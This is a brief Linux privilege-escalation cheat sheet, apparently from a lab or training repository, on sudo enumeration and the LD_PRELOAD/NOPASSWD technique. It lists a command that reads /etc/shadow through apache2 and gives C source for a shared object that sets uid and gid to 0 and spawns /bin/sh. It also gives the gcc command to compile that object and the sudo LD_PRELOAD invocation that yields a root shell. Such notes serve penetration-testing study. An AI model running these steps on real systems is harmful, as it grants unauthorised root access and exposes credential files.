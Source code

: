                                       
                                              
                                              
                                              
                                              
 ## Sudo Enumeration 
 
 
   
                 sudo -l
                 sudo --version
                 sudo apache2 -f /etc/shadow
                 
                 
		 
		 
		 
   ## Sudo resource		 
   
   https://gtfobins.github.io/
   
   
   
   
   
   
   
   ### LD_PRELOAD and NOPASSWD

If `LD_PRELOAD` is explicitly defined in the sudoers file

```powershell
Defaults        env_keep += LD_PRELOAD
```

Compile the following shared object using the C code below with `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

```powershell
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```

## And Type Command 
   
   sudo -l
   
## And Output 

        Matching Defaults entries for TCM on this host:
        env_reset, env_keep+=LD_PRELOAD

      User TCM may run the following commands on this host:
           (root) NOPASSWD: /usr/sbin/iftop
           (root) NOPASSWD: /usr/bin/find
           (root) NOPASSWD: /usr/bin/nano
           (root) NOPASSWD: /usr/bin/vim
           (root) NOPASSWD: /usr/bin/man
           (root) NOPASSWD: /usr/bin/awk
           (root) NOPASSWD: /usr/bin/less
           (root) NOPASSWD: /usr/bin/ftp
           (root) NOPASSWD: /usr/bin/nmap
           (root) NOPASSWD: /usr/sbin/apache2
           (root) NOPASSWD: /bin/more

Execute any binary with the LD_PRELOAD to spawn a shell : `sudo LD_PRELOAD=<full_path_to_so_file> <and Type NOPASSWD program name >`, e.g: `sudo LD_PRELOAD=/tmp/shell.so find`




